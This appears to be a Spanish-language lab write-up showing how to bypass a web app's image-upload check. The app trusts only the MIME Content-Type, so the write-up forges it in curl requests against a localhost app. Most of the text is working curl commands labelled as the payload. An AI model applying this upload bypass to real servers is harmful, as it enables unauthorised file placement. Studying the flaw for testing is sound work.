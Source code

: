 Hay que conseguir subir un archivo que no sea una imagen. La vulnerabilidad consiste en que el servidor únicamente comprueba el tipo **MIME** del archivo, no comprueba la extensión real, con lo que podemos subir cualquier tipo de archivo cambiando el Content-Type del formulario mediante una petición cURL, o mediante un proxy como **ZAP** o **BurpSuite**.
### cURL y Linux

Primero, empezamos enviando una imagen al servidor, para obtener una respuesta `200 OK` de su parte:

![[Pasted image 20240222002053.png]]

Aparecerá esta petición en el apartado `Red` de las opciones de desarrollador (_click derecho -> Inspeccionar).

![[Pasted image 20240222002217.png]]

Ahora, hay que copiar el valor de la petición como una petición `cURL`. En mi caso, estoy utilizando Linux, por lo que la copiaré como `cURL (POSIX)`:

![[Pasted image 20240222002312.png]]

Si lo pegamos, vemos como obtenemos un mensaje de `Malformed part header`. Esto se debe a que no hay contenido entre las dos líneas delimitadoras, ya que al copiar una solicitud como cURL desde las herramientas de desarrollador, no se incluye el contenido del archivo ya que los navegadores no tienen permiso para leer archivos arbitrarios del sistema de ficheros.

![[Pasted image 20240222002415.png]]

Para añadirlo, simplemente añadimos un `--data-binary` entre medias de la petición, indicando la ruta del archivo que queremos subir:

```bash
--data-binary $'-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="game"\r\n\r\nStarfield\r\n-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="text"\r\n\r\nhola mundo\r\n-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="image"; filename="POV.png"\r\nContent-Type: image/png\r\n\r\n' \
--data-binary @ruta/al/archivo \
--data-binary $'\r\n-----------------------------371081428521937028263451449577--\r\n'
```

Por último, no queda más que cambiar la extensión al archivo en el `filename`, manteniendo el `Content-Type`, para así saltarnos la comprobación de que el fichero debe ser una imagen, y subir cualquier archivo al servidor:

![[Pasted image 20240222002821.png]]

El `payload` es el siguiente:

```bash
curl 'http://localhost/api/comment/Starfield' -X POST \
-H 'Referer: http://localhost/' \
-H 'Content-Type: multipart/form-data; boundary=---------------------------371081428521937028263451449577' \
--data-binary $'-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="game"\r\n\r\nStarfield\r\n-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="text"\r\n\r\nhola mundo\r\n-----------------------------371081428521937028263451449577\r\nContent-Disposition: form-data; name="image"; filename="archivo.txt"\r\nContent-Type: image/png\r\n\r\n' \
--data-binary @ruta/al/archivo.txt \
--data-binary $'\r\n-----------------------------371081428521937028263451449577--\r\n'
```
### Resultado

 Este `script` envía una petición al endpoint, subiendo un archivo que no es una imagen. La gracia es que estamos subiendo un archivo llamado `vacio.txt`, con extensión  `.txt`, pero el tipo de `Content-Type` en el formulario es `image/png`, por lo que el servidor, al solo comprobar el tipo MIME, lo acepta como válido.

```bash
archivo="vacio.txt"
curl 'http://localhost/api/comment/Elden%20Ring' \
  -H 'Accept: */*' \
  -H 'Accept-Language: es-ES,es' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj1AO1KcqRoQqwFBQ' \
  -H 'Origin: http://localhost' \
  -H 'Referer: http://localhost/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Not A(Brand";v="99", "Brave";v="121", "Chromium";v="121"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-binary $'------WebKitFormBoundaryj1AO1KcqRoQqwFBQ\r\nContent-Disposition: form-data; name="game"\r\n\r\nElden Ring\r\n------WebKitFormBoundaryj1AO1KcqRoQqwFBQ\r\nContent-Disposition: form-data; name="text"\r\n\r\nHola mundo\r\n------WebKitFormBoundaryj1AO1KcqRoQqwFBQ\r\nContent-Disposition: form-data; name="image"; filename="vacio.txt"\r\nContent-Type: image/png\r\n\r\n'$archivo$'\r\n------WebKitFormBoundaryj1AO1KcqRoQqwFBQ--\r\n' \
  --compressed
```
